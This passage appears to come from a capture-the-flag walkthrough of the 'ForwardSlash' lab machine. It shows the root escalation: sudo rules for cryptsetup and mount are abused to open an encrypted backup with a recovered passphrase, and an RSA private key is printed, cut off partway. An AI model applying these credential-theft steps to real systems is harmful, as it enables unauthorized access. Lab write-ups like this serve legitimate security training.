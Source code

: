 The crypto part is not interesting me so I won't develop the explanation more
than that but you can take a look at [IppSec video](https://www.youtube.com/watch?v=alJa51XylDE)
to see the reasoning.

### Privilege Escalation : from pain to root

```
$ pain@forwardslash:~/encryptorinator$ file /var/backups/recovery/encrypted_backup.img
/var/backups/recovery/encrypted_backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: f2a0906a-c412-48db-8c18-3b72443c1bdf
```

Now it's pretty clear we have to mount the LUKS container with the password we
just found.

Let's see the commands we can run as root again:

```
pain@forwardslash:~/encryptorinator$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```

First we open the LUKS container and create a mount point.

```
pain@forwardslash:~/encryptorinator$ sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backup
Enter passphrase for /var/backups/recovery/encrypted_backup.img: cB!6%sdH8Lj^@Y*$C2cf

pain@forwardslash:~/encryptorinator$ mkdir -p /tmp/noraj2/mnt

pain@forwardslash:~/encryptorinator$ cd /tmp/noraj2
```

Then we can mount the openned container:

```
pain@forwardslash:/tmp/noraj2$ sudo /bin/mount /dev/mapper/backup ./mnt/
```

The mounted device contains only one file:

```
pain@forwardslash:/tmp/noraj2$ cat mnt/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA9i/r8VGof1vpIV6rhNE9hZfBDd3u6S16uNYqLn+xFgZEQBZK
RKh+WDykv/gukvUSauxWJndPq3F1Ck0xbcGQu6+1OBYb+fQ0B8raCRjwtwYF4gaf
yLFcOS111mKmUIB9qR1wDsmKRbtWPPPvgs2ruafgeiHujIEkiUUk9f3WTNqUsPQc
u2AG//ZCiqKWcWn0CcC2EhWsRQhLOvh3pGfv4gg0Gg/VNNiMPjDAYnr4iVg4XyEu
NWS2x9PtPasWsWRPLMEPtzLhJOnHE3iVJuTnFFhp2T6CtmZui4TJH3pij6wYYis9
MqzTmFwNzzx2HKS2tE2ty2c1CcW+F3GS/rn0EQIDAQABAoIBAQCPfjkg7D6xFSpa
V+rTPH6GeoB9C6mwYeDREYt+lNDsDHUFgbiCMk+KMLa6afcDkzLL/brtKsfWHwhg
G8Q+u/8XVn/jFAf0deFJ1XOmr9HGbA1LxB6oBLDDZvrzHYbhDzOvOchR5ijhIiNO
3cPx0t1QFkiiB1sarD9Wf2Xet7iMDArJI94G7yfnfUegtC5y38liJdb2TBXwvIZC
vROXZiQdmWCPEmwuE0aDj4HqmJvnIx9P4EAcTWuY0LdUU3zZcFgYlXiYT0xg2N1p
MIrAjjhgrQ3A2kXyxh9pzxsFlvIaSfxAvsL8LQy2Osl+i80WaORykmyFy5rmNLQD
Ih0cizb9AoGBAP2+PD2nV8y20kF6U0+JlwMG7WbV/rDF6+kVn0M2sfQKiAIUK3Wn
5YCeGARrMdZr4fidTN7koke02M4enSHEdZRTW2jRXlKfYHqSoVzLggnKVU/eghQs
V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
```